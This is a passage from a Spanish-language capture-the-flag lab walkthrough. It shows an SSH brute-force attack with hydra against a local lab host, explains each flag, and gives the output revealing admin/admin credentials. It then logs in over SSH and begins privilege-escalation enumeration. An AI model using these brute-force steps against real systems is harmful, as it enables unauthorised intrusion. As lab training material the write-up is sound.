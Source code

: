 ```
admin
1971
```

pues vamos a intentar acceder por ssh y vamos a ver credenciales

## FASE INTRUSIÓN:

```bash
hydra -L user.txt   -P pass.txt -t 16 -V -f -I ssh://172.17.0.2
```
```
** Explicación del comando

1 hydra Herramienta para realizar ataques de fuerza bruta a servicios remotos

2 -L user.txt Especifica el archivo que contiene una lista de posibles nombres de usuario

3 -P pass.txt Especifica el archivo que contiene una lista de posibles contraseñas

4 -t 16 Define el número de tareas (hilos) concurrentes; en este caso, 16

5 -V Activa el modo detallado, mostrando cada intento de usuario y contraseña

6 -f Detiene el ataque una vez que se encuentra una combinación válida

7 -I Ignora comprobaciones previas, forzando el ataque

8 ssh://172.17.0.2 Protocolo (SSH) y dirección IP del objetivo
```
En la salida vemos esto:

```
[22][ssh] host: 172.17.0.2   login: admin   password: admin
```
usuario admin contraseá admin...xD

Nos conectamos por ssh:
```bash
ssh admin@172.17.0.2
```
con la contraseña...admin
Ya estamos dentro.

## FASE ESCALADA DE PRIVILEGIOS

Provamos a mirar si estamos en alfún grupo interesante:
```bash
id
```
```
uid=1003(admin) gid=1003(admin) groups=1003(admin),100(users)
```
y...no, miramos la variable de entorno
```bash
printenv
```
```
SHELL=/bin/bash
PWD=/home/admin
LOGNAME=admin
HOME=/home/admin
LANG=C.UTF-8
```